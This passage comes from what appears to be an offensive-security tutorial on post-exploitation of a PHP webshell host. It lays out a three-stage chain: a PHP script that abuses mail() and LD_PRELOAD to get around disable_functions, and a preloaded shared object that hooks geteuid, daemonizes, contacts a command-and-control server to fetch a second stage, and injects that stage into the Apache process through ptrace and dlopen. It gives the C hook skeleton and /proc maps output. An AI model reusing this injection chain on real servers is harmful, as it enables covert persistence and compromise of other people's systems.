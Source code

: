 - __Stage 0__: a PHP script that will execute mail() and set LD_PRELOAD with our Stage 1 (read the article where I talk about how to bypass disable_functions). It will pass the PID to infect as an env var.
- __Stage 1__: a shared object that will be loaded by sendmail. It contains a hook that will contact our C&C, download our stage 2, and inject it in the process that is executing our webshell.
- __Stage 2__: just a shared object. When this is loaded it will write a log to /tmp, so we can verify that the injection was correct.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So... Lets go!

## Injecting code with ptrace (The lazy way)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In our stage 1 we will need to hook a function called in sendmail in order to trigger our infector, we need a skeleton similar to:

```c
void pwn(void) {
	//Our infector
}

void daemonize(void) {
	signal(SIGHUP, SIG_IGN);
	if (fork() != 0) {
		exit(EXIT_SUCCESS);
	}
}

uid_t geteuid() {
  uid_t (*orig_geteuid)();
  orig_geteuid = dlsym(RTLD_NEXT, "geteuid");
  unsetenv("LD_PRELOAD");
  daemonize();
  pwn();
  return orig_geteuid();
}

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
If we check the libs loaded by an Apache process we can notice that libdl is loaded:

```
gidorah@kaiju:~|⇒  sudo cat /proc/15922/maps | grep libdl
7f4b292a7000-7f4b292aa000 r-xp 00000000 08:01 2360320                    /lib/x86_64-linux-gnu/libdl-2.19.so
7f4b292aa000-7f4b294a9000 ---p 00003000 08:01 2360320                    /lib/x86_64-linux-gnu/libdl-2.19.so
7f4b294a9000-7f4b294aa000 r--p 00002000 08:01 2360320                    /lib/x86_64-linux-gnu/libdl-2.19.so
7f4b294aa000-7f4b294ab000 rw-p 00003000 08:01 2360320                    /lib/x86_64-linux-gnu/libdl-2.19.so
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
That is cool because things are a lot easier. Our plan will be use this stage 1 to inject a little stub of code inside the target process, then change the program counter to point the address of our stub. Our stub will be just a call to dlopen() with our stage 2 and RLTD_LAZY as params (as libdl is loaded, we only need to recalculate the address of dlopen becuase of ASLR).
